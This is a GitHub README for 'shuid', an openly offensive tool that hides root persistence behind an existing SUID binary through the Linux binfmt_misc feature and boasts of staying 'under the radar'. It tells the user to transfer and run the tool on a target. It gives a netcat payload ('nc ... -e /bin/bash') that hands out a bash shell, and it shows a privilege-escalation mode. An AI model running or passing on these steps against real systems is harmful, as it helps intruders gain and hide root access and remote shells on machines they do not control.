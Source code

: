 <div align=center>
<img src=./3BE95711-0067-40AD-8774-A9C09DD10DF8.png>
<sup>*<i>«shuid» stands for shadow SUID file</i></sup>
<pre><code><strong>Privileged persistence 
<br>without using noisy and detectable SUID 
<br>using <i>binfmt</i> Kernel feature instead</strong>
Also a good way to learn Nim and something new
</code></pre>
</div>

## Like at home! 🏡 <sup>(persistence)</sup>

* First transfer `shuid` on target
* Run it!<br><pre><code>./shuid</code></pre>

And that's all, you are under the radar. Process to obtain root shell will be outputted 


##### More granular

You have other possibilitles to sharpen the exploit. For example you can choose which SUID will hide your "shuid file" and trigger your payload (`-c`). And, of course, you can also custom the payload (`--payload`).
An example:
```shell
./shuid --file "/path/to/suid/file" --payload "nc 127.0.0.2 -e /bin/bash"
```

## Road to root! 🛣 <sup>(privesc)</sup>

Under certain circumstances, the trick can be used to gain elevated privileged. You can test it with:

```shell
./shuid --privesc
```

## [Understand the trick](TRICK.md)


<div align=center>
<sup>
All credits goes to <a href= https://github.com/Sentinel-One/shadowsuid/>Dor Dankner</a>, <a href= https://github.com/toffan/binfmt_misc>toffan</a> and <a href= https://www.hackthebox.com/home/users/profile/590762>uco2KFH</a> 
</sup>
</div>
